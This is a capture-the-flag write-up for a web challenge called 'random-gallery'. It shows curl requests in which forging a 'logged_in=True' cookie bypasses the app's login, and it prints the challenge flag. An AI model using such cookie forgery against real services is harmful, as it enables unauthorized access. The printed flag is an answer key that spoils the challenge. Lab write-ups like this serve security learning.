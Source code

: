 # random-gallery

![Proof](proof.png)

**Author:** `RaduTek`   
**Solve:** 62

---

## Description

just some photos?

---

## Recon

We can see just a simple web page with a login screen.

When we try to do a curl with some tests for login we get this reponse:

```bash
$ curl -i -X POST http://ctf.ac.upt.ro:9622/login   -H 'Content-Type: application/x-www-form-urlencoded'   --data 'username=test&password=wrong'

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Tue, 16 Sep 2025 16:50:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1107
Set-Cookie: logged_in=False; Path=/
Connection: close
```

Clearly the **logged_in=False** is a huge discovery.
Because by simply making a request with **logged_in=True** we could bypass the login entirely!

## Solve

```bash
$ curl -i -H 'Cookie: logged_in=True' http://ctf.ac.upt.ro:9622
HTTP/1.1 302 FOUND
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Tue, 16 Sep 2025 16:53:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 203
Location: /gallery
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/gallery">/gallery</a>. If not, click the link.
```

That's exactly what we wanted, we can do this ourselves on the browser using a Cookie Editor plugin!


![cookie](cookie.png)

Then we are in !

![gallery](Gallery.png)

Inside city -> haunts -> me 

We get a qr code

![qr-code](qr-code.png)

Scanning it

![scan](scan.png)

We get a pastebin link

![flag](flag.png)

There is our flag!

### Flag: ctf{1cd4daf060aee882653595cca4e719d48a3080cd1b76055812145da8a10b47e1}